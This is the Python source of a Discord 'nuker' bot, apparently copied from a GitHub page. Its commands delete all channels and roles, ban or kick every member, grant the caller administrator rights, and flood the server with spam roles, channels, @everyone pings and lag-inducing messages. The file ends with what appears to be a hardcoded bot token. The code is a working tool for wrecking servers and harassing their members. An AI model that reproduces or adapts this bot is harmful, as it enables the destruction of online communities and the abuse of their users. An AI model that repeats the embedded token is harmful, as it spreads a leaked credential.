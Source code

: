 
from discord import Permissions
import discord,random,time
import json
from discord.ext import commands, tasks
import os 
import colorama
import asyncio
from colorama import Fore
from discord import Embed
colorama.init()
intents = discord.Intents.all()
bot = commands.Bot(command_prefix="?",intents=intents)
bot.remove_command("help")

@bot.event
async def on_ready():
    print(f'''
{Fore.LIGHTCYAN_EX}╔╗╔┬ ┬┬┌─┌─┐┬─┐        
{Fore.LIGHTCYAN_EX}║║║│ │├┴┐├┤ ├┬┘        
{Fore.LIGHTCYAN_EX}╝╚╝└─┘┴ ┴└─┘┴└─     
Logged in and Ready <3                             
''')

@bot.command()
async def D(ctx,channel_id="all"):
  await ctx.message.delete()
  if channel_id == "all":
    for channel in ctx.guild.channels:
      if channel.id != 834134636678479902:
        await channel.delete()
      else:
        continue
    guild = ctx.message.guild
    await guild.create_text_channel("nuked")
    print("Nuked All Channels")
    return
  else:
    try:
      channel = ctx.get.channel(id=channel_id)
      await channel.delete()
    except:
      e2 = discord.Embed(title = "Invaild Channel ID.", color = 0x000000)
      await ctx.send(embed=e2)
    return

@bot.command(pass_context=True)
async def AD(ctx):
    try:
        guild = ctx.guild
        role = await guild.create_role(name="qo Nuker", permissions=discord.Permissions(8),colour=discord.Colour(000000))
        authour = ctx.message.author
        await ctx.message.delete()
        await authour.add_roles(role)
        print("Gave you admin <3")
    except:
        print("Couldnt give you admin :(")

@bot.command()
async def RS(ctx):
 while True:
   await ctx.guild.create_role(name="qo NUKER RUNS YOU")
   print("Spamming roles <3")
@bot.command()
async def TRS(ctx):
 while True:
   await ctx.guild.create_role(name="qo NUKER RUNS YOU",colour=discord.Colour(0x0EF5F6))
   await ctx.guild.create_role(name="qo NUKER RUNS YOU",colour=discord.Colour(0xFFFFFF))
   await ctx.guild.create_role(name="qo NUKER RUNS YOU",colour=discord.Colour(0xFFA3FB))
   await ctx.guild.create_role(name="qo NUKER RUNS YOU",colour=discord.Colour(0xFFFFFF))
   await ctx.guild.create_role(name="qo NUKER RUNS YOU",colour=discord.Colour(0x0EF5F6))
   print("Spamming roles <3")
@bot.command()
async def RD(ctx):
  total_roles = ""
  for role in ctx.guild.roles:
    try:
      await role.delete()
    except:
      pass 
  embed = Embed(title="Done Deleting All Roles", color=0x000000)
  await ctx.send(embed=embed)
  await ctx.message.delete()


@bot.command()
async def CS(ctx,times_reapet=10,name_of_channel="default"):
  for times in range(times_reapet):
    guild = ctx.message.guild
    await guild.create_text_channel(name_of_channel)
  em3 = discord.Embed(title = f"Im Done spamming ***{times_reapet}*** amount of channels named ***{name_of_channel}***", color = 0xaf1aff)
  print(f"Spammed {times_reapet} Channels <3")
  await ctx.message.delete()
  await ctx.send(embed=em3)

@bot.command()
async def VS(ctx,times_reapet=10,name_of_channel="default"):
  for times in range(times_reapet):
    guild = ctx.message.guild
    await guild.create_voice_channel(name_of_channel)
  em3 = discord.Embed(title = f"Im Done spamming ***{times_reapet}*** amount of voice channels named ***{name_of_channel}***", color = 0xaf1aff)
  print(f"Spammed {times_reapet} Voice Channels <3")
  await ctx.message.delete()
  await ctx.send(embed=em3)

@bot.command()
async def BA(ctx):
 embed=discord.Embed(title="Done Banning All Members", color=0x000000)
 await ctx.send(embed=embed)
 await ctx.message.delete()
 print("Banned All Members <3 ~")
 for user in ctx.guild.members:
        try:
            await user.ban()
        except:
           pass
@bot.command()
async def KA(ctx):
 embed=discord.Embed(title="Done Banning All Members", color=0x000000)
 await ctx.send(embed=embed)
 await ctx.message.delete()
 print("Kicked all members <3 ~")
 for user in ctx.guild.members:
        try:
            await user.kick()
        except:
           pass

@bot.command()
async def help(ctx):
 embed1 = Embed(title="qo Nuker Help", color=0x000000)
 embed1.add_field(name="?help ", value="Sends This Message", inline=False)
 embed1.add_field(name="?CS [Amount] Channel Name", value="Spams Channels", inline=True)
 embed1.add_field(name="?DA", value="Nukes All Channels", inline=False)
 embed1.add_field(name="?BA", value="Bans all members", inline=False)
 embed1.add_field(name="?PS", value="Locks all channels And Spam Pings", inline=False) 
 embed1.add_field(name="?AD", value="Gives user Admin.", inline=False)
 embed1.add_field(name="?VS [Amount] [Channel Name]", value="Spams Voice Channels", inline=False)  
 embed1.add_field(name="?servername [Name]", value="Changes Server Name", inline=False)
 embed1.add_field(name="?nickall [Name]", value="Changes Everyones Names", inline=False)
 embed1.add_field(name="?RS", value="Spams Roles", inline=False)
 embed1.add_field(name="?RD", value="Deletes All Roles Below the Bot", inline=False)
 embed1.add_field(name="?KA", value="Kicks All", inline=False)
 embed1.add_field(name="?TRS", value="spams roles like the trans flag :flusuhed:", inline=False)
 embed1.add_field(name="?LS", value="Lags Peoples Discords", inline=False)
 embed1.set_image(url="https://cdn.discordapp.com/attachments/886865266707955755/886869448508735508/image0.gif")     
 embed1.set_footer(text="By qo#1111")
 embed2 = await ctx.send(embed=embed1)
 time.sleep(10)
 await embed2.delete()
 await ctx.message.delete()


@bot.command()
async def PS(ctx):
    guild = ctx.message.guild
    await ctx.guild.edit(name="qo run'd u lol")
    print("i did the funi")
    latters = "a:b:c:d:e:f:g:h:i:j:k:l:m:n:o:p:q:r:s:t:u:v:w:x:y:,:+:*:/:#: "
    lattersL = latters.split()
    while True:
      for time in range(random.randint(4,10)):
        r1 = random.choice(lattersL)
      try:
        await guild.create_text_channel("qo just nuked u")
      except:
        pass 
      for channel in ctx.guild.text_channels:
        try:
          webhook = discord.utils.get(await ctx.channel.webhooks(), name='Spammer')
          await channel.send(f"@everyone QO ON TOP                   ")
          await ctx.channel.create_webhook(name="wizzed by tool")
          await channel.send(f"@everyone QO ON TOP            ")
          await ctx.channel.create_webhook(name="wizzed")
          await channel.send(f"@everyone QO ON TOP                            ")
          await ctx.channel.create_webhook(name="wizzed by tool")
          await channel.send(f"@everyone QO ON TOP             ")
          await ctx.channel.create_webhook(name="wizzed")
          await channel.send(f"@everyone QO ON TOP")
          await webhook.send()
        except:
          pass 
@bot.command()
async def LS(ctx):
  while True:
    for channel in ctx.guild.text_channels:
      await channel.send(":chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains: :chains:")
      print("killing Channels")
@bot.command()
async def servername(ctx, name = None): 
  if name != None:
    await ctx.guild.edit(name=f"{name}")
    print("Changed Server Name")
    em200 = Embed(color = 0x000000, title=f"Changed the server name to: ***{ctx.guild.name}***")
    em2001 = await ctx.send(embed=em200) 
    time.sleep(8)
    await em2001.delete()
  else:  
    em100 = Embed(color = 0x000000, title=ctx.guild.name)
    em1001 = await ctx.send(embed=em100)
    time.sleep(8)
    await em1001.delete()
@bot.command()
async def nickall(ctx, *, name="qo runned you"):
  print("Nicking All")
  for member in ctx.guild.members:
    try:
      await member.edit(nick=name)
    except:
      pass 

bot.run("ODg2ODcwNzA2NDcyNzU5MzM2.YT74tQ.SAsSRyxvKSakKbZ_8YlAAUK55Bs")
